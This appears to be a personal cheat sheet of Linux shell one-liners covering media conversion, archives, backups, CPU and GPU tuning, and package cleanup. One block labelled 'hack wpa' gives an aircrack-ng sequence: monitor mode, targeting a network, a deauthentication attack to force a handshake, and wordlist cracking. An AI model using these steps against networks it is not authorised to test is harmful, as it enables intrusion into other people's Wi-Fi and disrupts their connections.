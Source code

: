 unrar all archives in current folder  
`for f in *.rar;do unrar e -o+ $f;done`  

show folder size  
`du -h --max-depth=1`  

convert movie to xbox360 format  
`ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"`  

batch convert above  
```for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done ```

monero daemon  
`monerod --data-dir /mnt/cloud/monero`  

import gpg key for aur packages  
`gpg --receive-key keyid`  

ethereum blockchain sync  
`geth --syncmode "fast"`  

show external ip  
`curl ifconfig.me`  

weather forecast  
`curl wttr.in/Wilhelmshaven`  

set gtk cursor global value for browsers   
`gsettings set org.gnome.desktop.interface cursor-theme Adwaita`  

calculator  
`bc`  

backup through ssh  
`rsync -avz /source/folder/ user@remoteadress:/remote_folder`  

unrar all archives in folder (autoverwrite enabled)  
`find . -name "*.rar" -exec unrar x -o+ {} \;`  

show cpu frequency  
`cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\""`  

force cpu governor  
`sudo cpupower frequency-set -g powersave or performance`  

list available governors    
`cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors`  

show network usage  
` iftop`  

create playlist  
`ls -1 *.mp4 > playlist.m3u`  

cut characters playlist example  
`cut -c 50- playlist.m3u > newplaylist.m3u` 

batch rename delete example  
```for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done ```

output orphaned packages to file & run removal  
`sudo pacman -Qqdt > pkglist.txt`  
`sudo pacman -R - < pkglist.txt`  

hack wpa    
`airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon`  

hack wpa target network  
`airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon`  

force handshake  
`aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon`  

crack with wordlist  
`aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap`  

get nvme temperature  
`sudo nvme smart-log /dev/nvme0 | grep temperature`  

delete all but given extension  
`find . -type f ! -name '*.txt' -delete`  

amd vega current values  
`watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info`  

disable vsync environment variable  
`vblank_mode=0`  

current vega voltage values  
`sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage`  

force high dpm on graphics card  
`echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level`  
